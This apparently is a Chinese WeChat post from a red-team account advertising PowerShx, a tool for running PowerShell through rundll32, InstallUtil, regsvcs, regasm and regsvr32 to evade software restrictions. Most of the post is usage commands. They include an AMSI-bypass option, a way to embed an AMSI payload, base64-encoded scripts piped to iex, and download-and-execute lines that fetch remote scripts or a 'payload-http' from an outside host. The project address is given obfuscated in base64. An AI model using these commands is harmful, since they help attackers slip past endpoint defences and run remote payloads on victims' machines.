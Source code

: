 #  神兵利器 - PowerShx 不受软件限制运行Powershell

iomoath  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

        使用 DLL 或独立可执行文件的非托管 PowerShell 执行。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015090901.png)

  

  

        PowerShx 是对PowerShdll项目的重写和扩展。PowerShx 提供绕过 AMSI 和运行 PS Cmdlet 的功能。

  

### 特征

  * 使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regasm.exe、regsvr32.exe 运行带有 DLL 的 Powershell。

  * 在没有 powershell.exe 或 powershell_ise.exe 的情况下运行 Powershell

  * AMSI 旁路功能。

  * 直接从命令行或 Powershell 文件运行 Powershell 脚本

  * 导入 Powershell 模块并执行 Powershell Cmdlets。

## 用法

####

#### 运行dll32

  

  *   *   *   *   *   *   * 

    
    
    rundll32 PowerShx.dll,main -e                           <PS script to run>rundll32 PowerShx.dll,main -f <path>                    Run the script passed as argumentrundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     Load a script and run a PS cmdletrundll32 PowerShx.dll,main -w                           Start an interactive console in a new windowrundll32 PowerShx.dll,main -i                           Start an interactive consolerundll32 PowerShx.dll,main -s                           Attempt to bypass AMSIrundll32 PowerShx.dll,main -v                           Print Execution Output to the console

  

#### 替代

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    1.     x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll2.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShx.dll3.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShx.dll4.     regsvr32 /s  /u PowerShx.dll -->Calls DllUnregisterServer    regsvr32 /s PowerShx.dll --> Calls DllRegisterServer

  

### exe 版本

  

  *   *   *   *   * 

    
    
    PowerShx.exe -i                          Start an interactive consolePowerShx.exe -e                          <PS script to run>PowerShx.exe -f <path>                   Run the script passed as argumentPowerShx.exe -f <path> -c <PS Cmdlet>    Load a script and run a PS cmdletPowerShx.exe -s                          Attempt to bypass AMSI.

  

## 嵌入式有效载荷

  

       可以通过更新“Common”项目中的数据字典“Common.Payloads.PayloadDict”并在方法 PsSession.cs -> Handle() 中调用它来嵌入有效负载。示例：在 Handle() 方法中：

  

  *   *   *   *   * 

    
    
    private void Handle(Options options){  // Pre-execution before user script  _ps.Exe(Payloads.PayloadDict["amsi"]);}

  

## 例子

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex  
    PowerShx.exe -e [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex

  

注意：Empire stagers 需要使用 [System.Text.Encoding]::Unicode 解码

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;  
    PowerShx.exe -e "IEX ((new-object net.webclient).downloadstring('http://192.168.100/payload-http'))"

  

项目地址：

  

aHR0cHM6Ly9naXRodWIuY29tL2lvbW9hdGgvUG93ZXJTaHg=

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

神兵利器 - PowerShx 不受软件限制运行Powershell

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


